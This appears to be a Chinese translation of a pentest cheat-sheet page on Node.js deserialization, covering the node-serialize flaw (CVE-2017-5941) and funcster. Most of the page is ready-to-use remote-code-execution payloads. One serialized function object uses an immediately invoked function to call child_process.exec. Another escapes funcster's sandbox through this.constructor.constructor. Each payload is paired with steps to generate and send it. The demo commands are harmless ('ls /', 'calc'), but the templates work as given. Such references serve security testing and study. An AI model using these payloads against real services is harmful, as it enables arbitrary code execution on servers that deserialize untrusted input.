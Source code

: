 # Node 反序列化

## 摘要

* [利用](#exploit)
  * [node-serialize](#node-serialize)
  * [funcster](#funcster)
* [参考资料](#references)

## 利用

* 在Node源代码中查找：
  * `node-serialize`
  * `serialize-to-js`
  * `funcster`

### node-serialize

> 在Node.js的node-serialize包0.0.4版本中发现了一个问题。未信任的数据传入`unserialize()`函数可以通过传递一个带有立即执行函数表达式（IIFE）的JavaScript对象来利用，以实现任意代码执行。

1. 生成序列化的有效载荷

   ```js
   var y = {
       rce : function(){
           require('child_process').exec('ls /', function(error,
           stdout, stderr) { console.log(stdout) });
       },
   }
   var serialize = require('node-serialize');
   console.log("序列化:" + serialize.serialize(y));
   ```
   
2. 添加括号`()`以强制执行

   ```js
   {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
   ```

3. 发送有效载荷

### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```

## 参考资料

* [利用Node.js反序列化漏洞进行远程代码执行 (CVE-2017-5941) - Ajin Abraham](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS反序列化 - 2020年1月8日 - gonczor](https://blacksheephacks.pl/nodejs-deserialization/)
* [CVE-2017-5941 - 国家漏洞数据库 - 2017年2月9日](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)